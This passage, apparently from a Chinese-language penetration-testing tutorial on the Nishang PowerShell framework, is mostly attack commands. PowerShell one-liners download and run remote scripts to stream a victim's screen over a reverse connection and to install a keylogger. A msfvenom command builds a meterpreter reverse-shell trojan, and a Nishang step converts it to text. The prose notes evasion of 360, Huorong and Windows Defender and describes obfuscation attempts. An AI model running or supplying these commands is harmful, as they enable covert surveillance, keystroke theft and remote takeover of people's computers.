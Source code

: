 ```
iex (New-Object net.webclient).DownloadString('http://192.168.31.113/Gather/Show-TargetScreen.ps1');Show-TargetScreen -reverse -ipaddress 192.168.31.113 -port 6666
```

**这时，kali在浏览器上访问本地的9999端口，就可以看到传输过来的桌面画面，****并且不会触发360、火绒和windowsdefender**

### 键盘记录

**这里只介绍简单的使用：**

**windows:**

```
powershell iex (New-Object net.webclient).DownloadString('http://192.168.31.113/Gather/Keylogger.ps1');Keylogger -CheckURL http://pastebin.com/raw.php?i=jqP2vJ3x -MagicString stopthis
```

**这里是官方给出的例子，这种是在本地保存，会在/User/用户/AppData/Local/Temp/下创建一个key.log的文件，里面是键盘记录的信息，但是是经过编码的，需要通过/Utility/Parse_Keys来解码**

**也可以选择将信息post到一个指定的服务器上，详见官方说明**

**上述操作会被windwosdefender拦截，删除头部帮助信息也没用**

**通过在原文件最后加上一行**

`Keylogger -CheckURL http://pastebin.com/raw.php?i=jqP2vJ3x -MagicString stopthis`

**并通过chimera 进行与反弹shell一样的混淆后会破坏原有结构导致无法执行**

**用Invoke-Obfuscation 进行AScii 混淆后依然无法执行**

![image-20240309204934716](./resources/images/5-4.png)

#### nishang 和MSF进行联动

**msf 生成一个木马放到有nishang的环境上（我这里用的是另一台windows虚拟机）：**

**kali：**

```
msfvenom -p windows/x64/meterpreter/reverse_tcp   LHOST=192.168.31.113   LPORT=8888  -f exe  -o muma.exe
```

**windows**

```
powershell –exec bypass –Command "&{Import-Module 'C:\Users\13406\Desktop\nishang-master\nishang-master\Utility\ExetoText.ps1'; ExetoText.ps1 C:\Users\13406\Desktop\muma.exe   C:\Users\13406\Desktop\muma2.txt }"
```

